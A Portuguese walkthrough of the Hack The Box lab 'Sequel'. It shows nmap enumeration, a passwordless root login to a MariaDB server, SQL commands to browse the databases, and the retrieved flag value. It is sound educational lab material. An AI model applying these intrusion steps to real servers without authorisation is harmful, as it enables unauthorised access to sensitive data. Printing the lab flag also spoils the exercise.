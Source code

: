 # Guia de Resolução: Hack The Box - Sequel

Este documento é um guia de estudo para o desafio "Sequel". Ele se concentra na enumeração e interação direta com um servidor de banco de dados MySQL/MariaDB que está exposto na rede e permite acesso sem senha para o usuário `root`. O objetivo é explicar não apenas *como* realizar a exploração, mas *por que* cada comando SQL funciona, detalhando a navegação dentro do banco de dados para encontrar a flag.

---

## Introdução: Navegação em Bancos de Dados SQL

Bancos de dados como MySQL e MariaDB são sistemas de gerenciamento de banco de dados relacionais (RDBMS) amplamente utilizados para armazenar e organizar dados. Esses dados são estruturados em:

*   **Bancos de Dados (Databases):** Contêineres lógicos para agrupar tabelas relacionadas.
*   **Tabelas (Tables):** Estruturas que contêm os dados reais, organizados em linhas e colunas.
*   **Colunas (Columns):** Definem os atributos ou tipos de dados que cada entrada na tabela pode ter (ex: nome, email, senha).
*   **Linhas (Rows):** Representam os registros individuais dentro de uma tabela.

A capacidade de se conectar a um servidor de banco de dados e navegar por sua estrutura é uma habilidade fundamental em testes de invasão, pois bancos de dados frequentemente contêm informações sensíveis, incluindo credenciais e dados de usuários.

---

## Fase 1: Reconhecimento Inicial e Identificação do Serviço de Banco de Dados

O primeiro passo é identificar os serviços em execução no alvo, com foco especial em portas de banco de dados conhecidas.

### 1. Explicação Didática

> Imagine que você está se aproximando de um prédio seguro. Primeiro, você verifica quais portas estão acessíveis e que tipo de fechadura elas têm. Se você encontrar uma porta que parece ser a entrada para a sala de cofres (o servidor de banco de dados), essa se torna seu foco principal.

### 2. Explicação Técnica (Passo a Passo)

1.  **Enumeração de Portas e Serviços:** Utilizamos o `nmap` para descobrir os serviços ativos.

    *   **Comando:**
        ```bash
        sudo nmap -sC -sV {IP_DO_ALVO}
        ```
    *   **Explicação dos Parâmetros:**
        *   `sudo`: Necessário para scripts e detecção de versão que podem exigir privilégios.
        *   `nmap`: A ferramenta de varredura.
        *   `-sC`: Executa scripts de enumeração padrão. Para MySQL/MariaDB, isso pode tentar coletar informações como versão, plugins de autenticação, etc.
        *   `-sV`: Tenta identificar a versão do serviço.
        *   `{IP_DO_ALVO}`: O endereço IP da máquina "Sequel".

    *   **Resultado:** O `nmap` identifica a porta `3306/tcp` aberta, rodando `MySQL 5.5.5-10.3.27-MariaDB-0+deb10u1`. A porta 3306 é a porta padrão para MySQL e MariaDB. O script `mysql-info` também retorna detalhes como o protocolo, ID da thread, e o nome do plugin de autenticação (`mysql_native_password`).

---

## Vulnerabilidade 1: Acesso ao Banco de Dados MySQL/MariaDB com Credenciais Fracas (root sem senha)

A principal vulnerabilidade é a configuração do servidor MariaDB que permite ao usuário `root` (o superusuário do banco de dados) conectar-se remotamente sem fornecer uma senha.

### 1. Dica do Desafio

<details>
  <summary>Clique para revelar a dica</summary>
  <p>A presença de um serviço de banco de dados como MySQL/MariaDB em uma máquina de CTF introdutória frequentemente sugere credenciais fracas ou acesso anônimo/sem senha, especialmente para usuários privilegiados como `root`.</p>
</details>

### 2. Explicação Didática

> Pense no servidor MariaDB como a sala de controle principal de um sistema. O usuário `root` é o administrador com a chave mestra. Nesta máquina, o administrador deixou a porta da sala de controle destrancada e a chave mestra na fechadura, permitindo que qualquer um que saiba o nome "root" entre e assuma o controle.

Permitir que o usuário `root` do MySQL/MariaDB se conecte sem senha, especialmente de hosts remotos, é uma falha de segurança grave.

### 3. Explicação Técnica (Passo a Passo)

1.  **Instalação do Cliente MySQL/MariaDB (se necessário):** Para interagir com o servidor, precisamos de um cliente.

    *   **Comando:**
        ```bash
        sudo apt update && sudo apt install mysql*
        ```
    *   **Explicação dos Parâmetros:**
        *   `sudo apt update`: Atualiza a lista de pacotes.
        *   `sudo apt install mysql*`: Instala o cliente MySQL/MariaDB e pacotes relacionados. O `*` é um curinga para garantir que todos os componentes necessários sejam instalados.

2.  **Tentativa de Conexão como `root` sem Senha:** Usamos o cliente `mysql` para tentar conectar ao servidor como usuário `root`, sem fornecer uma senha.

    *   **Comando:**
        ```bash
        mysql -h {IP_DO_ALVO} -u root
        ```
    *   **Explicação dos Parâmetros:**
        *   `mysql`: O programa cliente para MySQL/MariaDB.
        *   `-h {IP_DO_ALVO}`: Especifica o host (endereço IP) do servidor ao qual queremos nos conectar.
        *   `-u root`: Especifica o nome de usuário para a conexão. Estamos tentando como `root`.
        *   **Nota sobre a senha:** Não usamos o parâmetro `-p`. Se uma senha fosse necessária, o cliente solicitaria. Ao omiti-lo e não sermos solicitados, isso implica que o servidor permite login sem senha para este usuário a partir do nosso host.

    *   **Resultado:** Se a conexão for bem-sucedida, seremos saudados com o prompt do MariaDB: `MariaDB [(none)]>`. O `(none)` indica que nenhum banco de dados foi selecionado por padrão.

3.  **Navegação e Exploração do Banco de Dados:** Uma vez conectados, podemos usar comandos SQL para explorar o servidor. Todos os comandos SQL devem terminar com um ponto e vírgula (`;`).

    *   **Listar todos os bancos de dados disponíveis:**
        ```sql
        MariaDB [(none)]> SHOW DATABASES;
        ```
        *   **Saída:**
            ```
            +--------------------+
            | Database           |
            +--------------------+
            | htb                |
            | information_schema |
            | mysql              |
            | performance_schema |
            +--------------------+
            ```
        O banco de dados `htb` parece ser o mais interessante e específico do desafio.

    *   **Selecionar o banco de dados `htb`:**
        ```sql
        MariaDB [htb]> USE htb;
        ```
        *   **Saída:** `Database changed`. O prompt muda para `MariaDB [htb]>`, indicando que agora estamos operando dentro do banco de dados `htb`.

    *   **Listar tabelas no banco de dados `htb`:**
        ```sql
        MariaDB [htb]> SHOW TABLES;
        ```
        *   **Saída:**
            ```
            +---------------+
            | Tables_in_htb |
            +---------------+
            | config        |
            | users         |
            +---------------+
            ```
        Temos duas tabelas: `config` e `users`.

    *   **Extrair dados da tabela `config`:** A tabela `config` parece um bom lugar para procurar informações de configuração ou flags.
        ```sql
        MariaDB [htb]> SELECT * FROM config;
        ```
        *   **Explicação do Comando:**
            *   `SELECT *`: Seleciona todas as colunas.
            *   `FROM config`: Da tabela chamada `config`.
        *   **Saída (parcial, focando na flag):**
            ```
            +----+-----------------------+----------------------------------+
            | id | name                  | value                            |
            +----+-----------------------+----------------------------------+
            ...
            | 5  | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
            ...
            +----+-----------------------+----------------------------------+
            ```
        A flag é encontrada na linha onde a coluna `name` é `flag`, e seu valor está na coluna `value`.

4.  **Sair do Cliente MySQL/MariaDB:**

    *   **Comando:**
        ```sql
        MariaDB [htb]> exit;
        ```
    *   Isso encerra a sessão com o servidor.

---

Com a flag `7b4bec00d1a39e3dd4e021ec3d915da8` recuperada da tabela `config`, o desafio "Sequel" está completo. Este exercício destaca a importância de proteger o acesso a servidores de banco de dados, especialmente para contas privilegiadas.